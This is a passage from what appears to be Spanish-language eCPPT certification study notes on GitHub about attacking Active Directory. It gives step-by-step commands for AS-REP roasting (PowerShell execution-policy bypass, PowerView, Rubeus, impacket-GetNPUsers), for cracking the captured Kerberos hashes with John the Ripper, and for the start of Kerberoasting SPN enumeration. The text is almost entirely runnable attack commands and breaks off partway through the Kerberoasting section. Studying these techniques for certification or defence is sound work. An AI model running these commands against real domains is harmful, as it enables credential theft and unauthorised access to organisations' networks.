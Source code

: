 [](https://github.com/ant0dev/Methodology-eCPPT/blob/main/METODOLOGIA%20ATAQUE%20AD%20%26%20CERTIFICACION%20eCPPTv3.md#privesc)

#### [[AS-REP ROASTING]]

[](https://github.com/ant0dev/Methodology-eCPPT/blob/main/METODOLOGIA%20ATAQUE%20AD%20%26%20CERTIFICACION%20eCPPTv3.md#as-rep-roasting)

**Importar Modulo Powerview**

```powershell
# Dar permisos de bypass
powershell -ep bypass

# Importamos el modulo
. .\PowerView.ps1
```

**Identificar usuarios con la opcion DONT_REQ_PREAUTH valida**

```powershell
Get-DomainUser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }
```

**Realizar Ataque As-Rep Roasting**

```powershell
# Herramienta Rubeus
.\Rubeus.exe asreproast /user:johnny /outfile:jonnyhash.txt

# Set Impacket
impacket-GetNPUsers -no-pass -usersfile user.txt domain.local/
```

**Password Cracking**

```powershell
.\john.exe .\johnhash.txt --format=krb5asrep -wordlist=.\10k-worst-pass.txt
```

#### [[KERBEROASTING]]

[](https://github.com/ant0dev/Methodology-eCPPT/blob/main/METODOLOGIA%20ATAQUE%20AD%20%26%20CERTIFICACION%20eCPPTv3.md#kerberoasting)

**Importar Modulo Powerview**

```powershell
# Permisos bypass powershell
powershell -ep bypass

# Importamos el moudulo
. .\PowerView.ps1
```

**Enumeración de SPNs**

```powershell
# Lista Todos los posibles usuario filtrando por los cuales tiene el SPN iniciado
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
setspn -T research -Q */*
```
